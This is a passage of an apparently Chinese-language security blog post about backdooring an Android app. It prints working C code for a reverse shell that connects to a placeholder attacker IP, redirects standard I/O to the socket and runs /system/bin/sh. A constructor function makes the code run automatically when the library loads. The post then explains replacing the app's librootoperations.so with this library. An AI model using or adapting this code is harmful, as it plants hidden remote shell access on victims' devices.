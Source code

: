 核心代码

```c

void create_reverseshell() {
    LOGD("In new thread\n");
    int port = 8888;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    LOGD("socket:%d %d\n", sockt, errno);
    if (sockt < 0) {
        LOGD("error socket");
        return;
    }
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("XXX.XXX.XXX.XXX"); // nc server IP

    int result = connect(sockt, (struct sockaddr *) &revsockaddr,
            sizeof(revsockaddr));
    LOGD("connect:%d %d\n", result, errno);
    if (result <0) {
        return;
    }
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/system/bin/sh", NULL};
    execve("/system/bin/sh", argv, NULL);
}

__attribute__((constructor)) void init_function() {  // so 加载后创建

    LOGD("Create new thread\n");
    int childid = fork();
    if (childid == 0) {
        create_reverseshell();
    }
}

```

#### apk 修改

![graph]({{"/assets/pictures/security/path_info.png" | prepend:site.baseurl}})

由于我们有 so 文件，所以需要修改的有 base.apk 和 lib 下的 librootoperations.so 文件，上面分析过，不能添加文件，只能替换，所以需要将我们的 so 替换成 librootoperations.so。

{:.warning}
当然也可以用 java 实现反射 shell 的逻辑，这样就不用修改 so 了

